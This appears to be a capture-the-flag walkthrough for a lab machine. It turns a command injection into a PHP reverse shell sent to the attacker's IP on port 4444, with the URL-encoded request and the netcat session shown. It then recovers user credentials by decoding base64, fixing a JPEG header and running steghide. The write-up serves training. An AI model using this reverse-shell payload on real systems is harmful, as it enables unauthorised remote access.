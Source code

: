 - COMMAND INJECTION TUTORIAL GUYS!

---

## ⚙️ Shell Access

- Since we already have a command injection, getting a shell is simple. I used `php -r '$sock=fsockopen("YOUR-THM-IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`. Don't forget to URL encode it!

  ```
  http://10.10.50.138/assets/?cmd=php+-r+'$sock%3dfsockopen("[YOUR-THM-IP]",4444)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'

  nc -lvnp 4444               
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.50.138] 55504
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- Switch it to Putty and start enumerating.

---

## 🧍 User Privilege Escalation

- There is a passphrase in `Hidden_Content` directory.

  ```
  www-data@ip-10-10-50-138:/var/www/Hidden_Content$ ls -al
  total 12
  drwxrwxr-x 2 www-data www-data 4096 Jul  9  2023 .
  drwxr-xr-x 4 www-data www-data 4096 Dec 13  2023 ..
  -rw-rw-r-- 1 www-data www-data   29 Jul  9  2023 passphrase.txt
  
  www-data@ip-10-10-50-138:/var/www/Hidden_Content$ cat passphrase.txt 
  QWxsbWlnaHRGb3JFdmVyISEhCg==

  echo 'QWxsbWlnaHRGb3JFdmVyISEhCg==' | base64 -d                            
  AllmightForEver!!!
  ```
  
- Since this is a passphrase and we have some images, you already know the next step. With hex edit change first 12 bytes to this: `FF D8 FF E0  00 10 4A 46  49 46 00 01`. After that use steghide and you will get credentials.

  ```
  hexedit oneforall.jpg
  
  steghide --extract -sf oneforall.jpg 
  Enter passphrase: 
  wrote extracted data to "creds.txt".
                                                                                                                       
  $ cat creds.txt             
  Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:
  
  deku:One?For?All_!!one1/A
  ```
  